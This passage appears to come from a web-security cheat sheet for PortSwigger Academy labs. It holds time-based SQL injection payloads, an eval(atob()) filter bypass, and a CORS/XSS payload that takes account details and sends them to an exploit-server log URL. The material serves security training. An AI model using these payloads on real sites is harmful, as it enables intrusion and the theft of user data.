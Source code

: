 Time based (MySQL):
```sql
' OR SLEEP(5) -- -
```

Time based (Postgre):
```sql
' OR pg_sleep(5) -- -
```

##### Filter bypass via base64 encoding

```js
eval(atob(BASE64_ENCODED_PAYLOAD))
```

##### Filter bypass via XML encoding

Indicators:
A POST request contains xml data like this: `<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>`  
Changing `ProductId` or `StoreId` to `'` returns an error or a warning message.

Use [Hackverter](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) extension to encode payloads. Check [database enumeration](#Database Enumeration).

[Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

#### CORS

##### Chained with XSS to get subdomain access

Indicators:  
`Access-Control-Allow-Credentials` header is set to true.  
The website uses subdomains like `stock.ID.web-security-academy.net`.  

Set `Origin: https://SUBDOMAIN.ID.web-security-academy.net/`.

[Lab: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Working payload for this lab:
```html
<script>
document.location="http://stock.ID.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload=reqListener;req.open('get','https://ID.web-security-academy.net/accountDetails',true); req.withCredentials=true;req.send();function reqListener(){location='https://EXPLOIT-ID.exploit-server.net/log?key='%2bthis.responseText; };</script>&storeId=1"
</script>
```

#### JWT

Use [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) extension.

##### Unverified Signature
